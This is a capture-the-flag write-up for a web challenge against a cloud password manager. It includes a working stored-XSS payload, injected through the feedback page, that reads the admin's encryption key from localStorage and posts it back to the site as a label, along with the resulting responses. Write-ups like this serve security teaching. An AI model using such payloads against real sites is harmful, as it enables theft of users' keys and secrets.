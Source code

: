 # CBPM (web 300)

The participants were given an online cloud based password manager which had several options such as password change, feedback and etc. After spending some time on the task, we realized the workflow. The important consequences:
+ Login can be done by any username.
+ Admin user has a password labeled "flag"
+ In order to reveal the stored passwords, a correct password of the user is required
![](2.png)
+ Encryption/Decryption KEY is generated by user’s password.
+ KEY is saved on browser as it’s written on the site “Your decrypted master encryption key (KEY) is available in your browser and its encrypted version is stored on the server”
+ The exact location of `KEY` is in `localStorage` in browser 
![](3.png)
+ In order to decrypt flag, admin’s `password` or `KEY` is required.
+ The “feedback page” is prone to Cross Site Scripting without any protection or filtering.

**Attack scenario**: sending malicious payload to the admin users through feedback option, forcing admin to reveal his key.
In term of exploitation, there was a problem indicated in question: By the way, admin protects its machine with a strong and restrictive firewall...
Firewall means that admin couldn’t send request to internet. So our solution was to force admin to make a new label name with his local KEY. The payload used:
```
<script>
var b = new XMLHttpRequest();
b.open("POST", "/put.php", true);
b.send('{"id":"eyJ0ZWFtaWQiOiIxNDgifS4xY0lFWFguWDN0TXBxcGNuZlZFcDJ2UmZmUVBFdU1LbWVr","prelabel":"","newlabel":"'+localStorage.KEY+'","encpass":"a","iv":"a"}');
</script>
```
Following URL held the labels of a user.
```
http://ctf.sharif.edu:8081/list.php?id=eyJ0ZWFtaWQiOiIxNDgifS4xY0laUDcuNEtIbFcwaGpoRGc5dTlJcVIwQjJjMzN2WW5R
```
Admin’s labels before sending malicious payload:
```
{"meta":{"ok":true,"code":0,"messages":[]},"payload":{"labels":["flag"]}}
```
Afterwards:
```
{"meta":{"ok":true,"code":0,"messages":[]},"payload":{"labels":["bGFDMGZYWnZORG9hc21vM0hvZHNkUjE2YjJGeU1yMUM=","flag"]}}
```
So the KEY was grabbed. In the console of browser:
```
localStorage.setItem('KEY', 'bGFDMGZYWnZORG9hc21vM0hvZHNkUjE2YjJGeU1yMUM=')
```
And the flag was revealed: ![](1.png)

https://twitter.com/yshahinzadeh
